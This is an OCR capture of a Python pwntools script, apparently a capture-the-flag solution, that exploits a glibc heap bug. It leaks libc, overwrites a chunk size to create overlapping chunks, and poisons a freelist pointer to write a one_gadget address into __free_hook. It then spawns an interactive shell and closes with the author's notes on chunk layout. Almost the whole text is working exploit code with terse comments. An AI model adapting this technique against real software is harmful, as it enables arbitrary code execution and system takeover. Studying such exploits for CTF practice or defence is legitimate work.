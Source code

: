 ```python
leak_value = int(p.recvline(),16)
leak_value -= libc.symbols['exit'] + 0xc195
libc.address = leak_value

p.recvuntil(b"> ")
p.sendline(b"1000")

chunk1 =  malloc(1000)
chunk2 =  malloc(1000)
chunk3 =  malloc(1000)
chunk4 =  malloc(1000)  # Stop top chunk consolidatation

free(chunk3)  # Tells chunk where to end

write(992, b'A'*992 )   # Padding for the first chunk
write(8, p64(0x410 + 0x410 + 1) )  # Overwrites size field, sizeof(chunk1) *2 & 1


free(chunk1)   # in unsorted bin
giant = malloc(0x820 - 8 - 24) # get back chunk1/chunk2, sub 8 for malloc metadata, sub 24 for program metadata 

free(1)        #  This is chunk2  aka second half of giant chunk

write(1000, b'C'*1000 )  # Just padding stuff
write(1008, b'D'*1008)

# write(0x18 , p64(0x411) + p64(libc.sym.__malloc_hook -0x20 ) + p64(0xcafebabeb))
write(0x18 , p64(0x411) + p64(libc.sym.__free_hook - 0x50) + p64(0xcafebabeb))

dummy = malloc(1000)  # This chunks fd pointer was overwritten
hook = malloc(1000)  # This is pointer to free_hook

free(giant)
free(chunk4)
free(dummy)

write(1000 + 0, b'F'*(1000 + 0))    # Can't free chunk2 so just padd it
write(32 + 24, b'\x00'*(32 + 24))  #  Used nulls to avoid touching IO Locks before free hook

write(8, p64(libc.address + 0x10a45c))  # One_gadget
p.sendline(b"1")
p.sendline(b"1")  # Call a valid free
p.clean()         # Clean up buffering garbage
p.interactive()   # SHELL :)

'''
NOTES:
After mallocing chunk
p64(ADDR OF 4th)   --------------
p64(????)                       |
p64(size_user_specificed)       |
p64(0)                        <-|
One_gadget in scanf that calls malloc fails for some reason
One_gadget in malloc_hook fails but free works, stupid locks 
'''


```

